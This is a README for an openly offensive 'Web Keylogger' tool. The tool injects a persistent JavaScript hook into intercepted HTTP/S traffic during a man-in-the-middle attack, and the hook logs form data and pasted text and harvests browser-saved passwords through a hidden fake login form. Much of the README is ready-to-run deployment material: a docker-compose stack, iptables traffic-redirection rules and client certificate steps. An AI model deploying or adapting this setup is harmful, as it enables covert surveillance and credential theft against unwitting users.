 # Web Keylogger
Tool for injecting monitoring script into the HTTP/S traffic during MITM attack. The script is capable of monitoring selected user's activities (submiting forms and pasting text) and extraction of user's stored credentials. Upon initial injection to the web page (origin), script is able to persist itself inside a browser and operate even after the MITM attack has completed up until user clears his/her browser.

## mitmproxy
[mitmproxy][1] is an interactive, SSL/TLS-capable intercepting proxy with a console interface for HTTP/1, HTTP/2, and WebSockets.

![Schema](docs/sslSplit.svg)

## Keylogger
* Web-service logging data from the Hook and visualizing them

### JS Hook
* Intercepts:
  * data submitted to forms,
  * pasted text into webpage
* Extracts user's credential by faking login form --- if credentials are stored for the domain, browser (Chrome, Firefox) inserts them into the hidden fake login form

## docker-compose.yml

```
version: '3.5'

services:
  injector:
    image: injector
    container_name: injector
    build:
      context: ./injector
    volumes:
      - ./data/mitmproxy:/root/.mitmproxy
    ports:
      - 8080:8080
    environment:
      - HOOK_HOST=$HOOK_HOST
      - HOOK_PORT_HTTP=$HOOK_PORT_HTTP
      - HOOK_PORT_HTTPS=$HOOK_PORT_HTTPS
    network_mode: host

  keylogger:
    image: nesatfit/keylogger:latest
    build:
      context: ./keyloggerServer
    container_name: keylogger
    command: --db=mongo --hook_host=$HOOK_HOST --hook_port_http $HOOK_PORT_HTTP --hook_port_https $HOOK_PORT_HTTPS
    ports:
      - 8081:80
      - 8445:443
      - 7000:7000
    restart: unless-stopped
    volumes:
      - ./data/mitmproxy:/data/mitmproxy
      - ./data/haproxy:/data/haproxy
    depends_on:
      - injector
      - mongo
    environment:
      - HOOK_HOST=$HOOK_HOST

  mongo:
    container_name: keylogger_mongo
    image: mongo
    restart: unless-stopped
    volumes:
      - ./data/mongo:/data/db
```

## Server Setup

```bash
# Modify .env and docker-compose.yml variables to reflect your environment
docker-compose up -d

# Setup firewall rules
sysctl -w net.ipv4.ip_forward=1
sysctl -w net.ipv4.conf.all.send_redirects=0
iptables -P FORWARD ACCEPT
iptables -t nat -N MITM
iptables -t nat -A MITM -i eth0 -p tcp --dport 80 -j REDIRECT --to-port 8080
iptables -t nat -A MITM -i eth0 -p tcp --dport 443 -j REDIRECT --to-port 8080

# Enable
iptables -t nat -A PREROUTING -j MITM

# Disable
iptables -t nat -D PREROUTING -j MITM
```

## Client Setup

```bash
# ip route del to default via XXX.XXX.XXX.XXX
# ip route add default via YYY.YYY.YYY.YY

Visit mitm.it in client browser and install certificate (Other)

curl -k https://www.messenger.com
```

## Demonstration
- https://www.youtube.com/watch?v=kO2t3eZgG-8

## Read more

- <https://blog.heckel.xyz/2013/08/04/use-sslsplit-to-transparently-sniff-tls-ssl-connections/>
- <https://www.trustwave.com/en-us/resources/blogs/spiderlabs-blog/intercepting-ssl-and-https-traffic-with-mitmproxy-and-sslsplit/>

[1]: <https://github.com/mitmproxy/mitmproxy>
